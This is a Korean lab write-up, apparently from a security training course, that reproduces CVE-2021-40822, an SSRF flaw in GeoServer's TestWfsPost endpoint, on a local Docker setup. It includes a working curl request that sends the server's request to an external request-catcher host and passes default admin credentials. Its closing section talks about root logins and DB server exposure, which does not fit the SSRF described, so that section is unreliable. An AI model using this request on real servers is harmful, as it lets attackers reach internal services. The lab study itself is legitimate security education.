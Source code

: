 # CVE-2021-40822 (GeoServer SSRF)

> 화이트햇 스쿨 3기 - [이진석]

<br/>

### 요약

- GeoServer는 지리공간 데이터를 보고, 편집하고, 공유할 수 있는 기능을 제공하는 Java로 작성된 오픈 소스 소프트웨어 서버이다.
- GeoServer 2.19.3, 2.18.5, 2.17.6 이전 버전에는 WMS GetMap 요청에 서버 측 요청 위조(SSRF) 취약점이 존재하여 공격자는 GeoServer 서버를 통해 내부 또는 외부 서비스에 요청을 보낼 수 있다.

### 환경구성
- `docker compose up -d` 커맨드를 입력해 GeoServer 2.19.1 서버를 시작한다.
서버가 시작된 후 GeoServer의 기본 페이지를 찾아볼 수 있다. `http://your-ip:8080/geoserver`
<img width="500" alt="스크린샷 2025-04-20 오후 1 59 03" src="https://github.com/user-attachments/assets/aae25fd6-0f3c-435b-842f-ad079860f98c" />

- https://requestcatcher.com/ 또는 https://webhook.site/ 에서 공격을 받을 외부 사이트를 준비한다.
  
### exploit
- 취약점은 TestWfsPost엔드포인트에 존재하여 공격자는 이 url매개변수를 사용하여 서버가 임의의 URL로 요청을 보내도록 할 수 있다.
- 엔드포인트는 다음과 같은 여러 매개변수를 허용한다.
url: GeoServer가 요청을 보낼 대상 URL
body: 전송할 요청 본문으로 이 매개변수가 비어 있으면 GeoServer는 GET 요청을 전송하고, 값이 포함되어 있으면 GeoServer는 POST 요청을 전송한다.
username: 기본 인증을 위한 사용자 이름(선택 사항)
password: 기본 인증을 위한 비밀번호 (선택 사항)

<pre><code>curl -X POST http://127.0.0.1:8080/geoserver/TestWfsPost
  -H "Content-Type: application/x-www-form-urlencoded"        
  -H "Host: (your-name).requestcatcher.com"       
  -d "url=http://(your-name).requestcatcher.com/geoserver/../&body=test&username=admin&password=geoserver"</code></pre> 
  
`참고: 매개변수의 호스트는 요청의 헤더 url와 일치해야 합니다 . 그렇지 않으면 GeoServer에서 오류가 반환됩니다.`
<img width="500" alt="스크린샷 2025-04-20 오후 4 15 30" src="https://github.com/user-attachments/assets/87be97f0-b67a-44e5-9eb0-36234a82b097" />
<br/>

### 결과
GeoServer를 향한 요청에 대한 응답으로 외부사이트에 로그가 남아 GeoServer에서 온 test라는 텍스트가 반환되는 것을 볼 수 있습니다.
<br/>

### 정리

해당 취약점을 통해 공격자는 root를 포함한 특정 사용자 계정에 로그인하여, 인가되지 않은 권한을 획득할 수 있다.

이러한 상황을 방지하기 위해, 가장 먼저 관리자는 DB 서버의 네트워크가 노출되지 않도록 노력해야 한다. 즉, 인가되지 않은 액세스를 차단할 수 있도록 미리 서버를 설정해야 한다. 그리고 주기적으로 서비스 취약점을 모니터링하고 패치해야 한다.
